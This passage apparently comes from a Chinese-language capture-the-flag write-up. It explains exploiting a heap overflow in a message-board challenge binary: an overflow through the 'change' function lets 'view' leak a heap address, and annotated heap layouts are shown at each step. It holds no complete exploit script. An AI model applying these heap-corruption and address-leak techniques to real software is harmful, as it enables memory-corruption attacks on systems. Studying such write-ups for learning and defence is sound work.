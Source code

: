 這裡的 fd, bk 會指向 chunk 儲存 size 的地方，而不是 data 開頭或是 chunk 開頭


## Exploit

首先，先留下一個訊息，接著利用 `change` 來做 overflow，之後利用 view 來 leak heap address。

一開始的 heap layout：

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000400           # Top chunk
0x603020:      0x0000000000000000      0x0000000000603000
0x603030:      0x0000000000000000      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000000
0x603050:      0x0000000000000000      0x0000000000000000
```

留下一則 size 8 的 message：

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x0000000041414141      0x0000000000000000
0x603040:      0x0000000000000000      0x00000000000003d0           # Top chunk
0x603050:      0x0000000000000000      0x0000000000603018
```

接下來利用 `change` 裡面的 overflow 來 leak heap address

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x4141414141414141      0x4141414141414141
0x603040:      0x4141414141414141      0x4141414141414141           # Top chunk
0x603050:      0x4141414141414141      0x0000000000603018
```

這時候利用 `view` 他會 output 40 個 A 之後把 `0x603018` leak 出來，算一下 offset 就可以拿到 `0x603000` 也就是 heap 的開頭

leak 完之後先把 heap 的 struct 恢復原樣，這邊就不放 layout 了，跟第二個 layout 一樣

恢復之後，在留下新的一則 message size 一樣是 8：

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x0000000041414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000031           # Second message
0x603050:      0x0000000000603018      0x0000000000603018
0x603060:      0x0000000042424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
```
